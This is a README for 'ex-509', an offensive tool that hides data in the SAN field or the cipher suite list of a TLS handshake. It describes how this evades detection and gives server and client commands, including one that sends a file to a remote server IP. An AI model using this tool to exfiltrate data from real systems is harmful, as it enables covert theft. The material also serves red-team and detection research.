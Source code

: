 # ex-509
> Data exfiltration abusing x509 certificates

In order for a TLS session to be established, some data must first be exchanged between the client and server. These exfiltration techniques take advantage of this, and hide data in the TLS handshake itself. Ex-509 includes two modes of operation: certificate and cipher. In certificate mode, payload data is stored in the Subject Alternative Name (SAN) field of the client certificate. In cipher mode, data is hidden in the cipher suite of the handshake. These are both sent to the attacker's machine before an actual session is established, which makes the exfiltration harder to detect.

## Requirements
Python >= 3.6


Use the package manager [pip](https://pip.pypa.io/en/stable/) to install the required libraries.

* On both the client and server machines, [cryptography](https://pypi.org/project/cryptography/) is required for certificate generation and parsing

* On the server machine, [tlslite-ng](https://pypi.org/project/tlslite-ng/) is required for more control over the TLS handshake

## Usage
Note: each technique has its own standalone client and server


### Server
Start listening for connections:
```sh
python3 ex-509.py
```

To specify a custom certificate, private key, or port number:
```sh
python3 ex-509.py --cert [PATH TO CERT] --key [PATH TO KEY] --port [PORT]
```

*If no certificate is specified, one will be generated and used automatically*

### Client
Sending a file to the server:
```sh
python3 client.py -f [PATH TO FILE] -i [SERVER IP] -p [PORT]
```
